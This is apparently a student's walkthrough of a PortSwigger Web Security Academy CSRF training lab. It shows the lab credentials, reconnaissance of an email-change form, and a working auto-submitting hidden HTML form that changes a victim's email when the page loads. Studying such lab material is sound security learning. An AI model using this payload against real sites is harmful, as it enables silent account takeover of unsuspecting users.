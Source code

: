 Title: CSRF vulnerability with No Defenses<br>
Rank/Tier: Apprentice<br>
Author: Portswigger Web Security Academy<br>
Link: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

# CSRF vulnerability with no defenses
Provided with the following description:
>This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: **```wiener:peter```**

Main take aways from the provided description:
- Credentials to an account: ```wiener:peter```.
- Email change function is vulnerable to CSRF.
- Goal: Create and store HTML that performs CSRF on a malicious server that can change the viewers email.

# Reconnaissance
Accessing the lab we're presented with a blog. Feel free to look through the various posts. The 2 areas of interest is  ```Go to exploit server``` and ```My account``` to reach the goal of the lab. 
- Rationale for ```Go to exploit server``` is the name. In the description it said to upload HTML to the exploit server.
- Rationale for ```My account``` is in the lab description about the change email functionality being vulnerable to CSRF. Which is most likely located in a page related to my account than a blog post.
![First displayed page](Lab1_Blog_Page.png)

## Exploit server
Clicking on the ```Go to exploit server``` button we're taken to a new web page with the description
> This is your server. You can use the form below to save an exploit, and send it to the victim.
>
> Please note that the victim uses Google Chrome. When you test your exploit against yourself, we recommend using Burp's Browser or Chrome.

URL to exploit server: 
```
https://exploit-0aac00e003b9867880722ace01de0089.exploit-server.net/exploit
```
Protocol:
```
HTTPS
```
File:
```
exploit
```
Head: 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
Body:
```
Hello, world!
```
4 options:
- Store (Save changes to exploit server)
- View exploit (View result of the exploit server impact on the lab website)
- Deliver exploit to victim (Perform the exploit)
- Access Log

![Exploit_Server](Lab1_Exploit_Server_Original.png)

## My account
Displayed a login page requesting a username and password. Insert the provided credentials.

Username:
```
wiener
```
Password:
```
peter
```
![Login page](Lab1_Login_Page.png)

## Change account page
After successfully logging in we're taken to the My Account page which has the option to update email. From the original lab description the vulnerable functionality in this website is the email update suggesting this form to be our initial attack vector.

![My account](My_Account.png)

Viewed the pages source and the update email form is:
```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```
Seds a POST request to ```view-source:https://0a3500ce033f86a480602b28006400dd.web-security-academy.net/my-account/change-email``` containing the newly requested email we want to change to. Doesn't seem to contain a CSRF token.

Lets attempt to change the email from ```wiener@normal-user.net``` to ```wiener2@normal-user.net``` and capture the request in burp suite.
![Email_Change_1](Email_Change1.png)
It seems to use the session ID stored in a cookie


# Web exploitation of update email function through CSRF
⚠️Session ID may vary due to connection issues and needing to restart lab during this process.

In the body of our exploit server we can insert the following:
```
<form action="https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="wiener3@normal-user.net" />
</form>
<script>
	document.forms[0].submit();
</script>
```
Explanation:
>Send the data to the destination stored in the attribute action. Which in this case is https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email. Which we got from our recon. Using type hidden because we don't want the victim to see this input field. Copy and paste ```name="email" value=""``` from the original form and insert the email we want our account to change to in value.

Use ```document.form[0].submit()``` to execute the form when our exploit server is loaded by the victim/target. 

Explanation
>Does this by using javascript and accessing the document object and use the form[index] 0 which would be our malicious form and submit it.

Select store to save it on the exploit server.
![Insert malicious form](Malicious_Body.png)

Result:<br>
![View exploit](View_Exploit.png)

## End
Change the email in the body once more (Lab website doesn't allow changing of emails to emails already in use by another user). Then click ```store``` to save it to the exploit server. Once saved click ```Deliver exploit to victim```. If successful ```Congratulations, you solved the lab!``` should appear on the top.
![End](Finish.png)


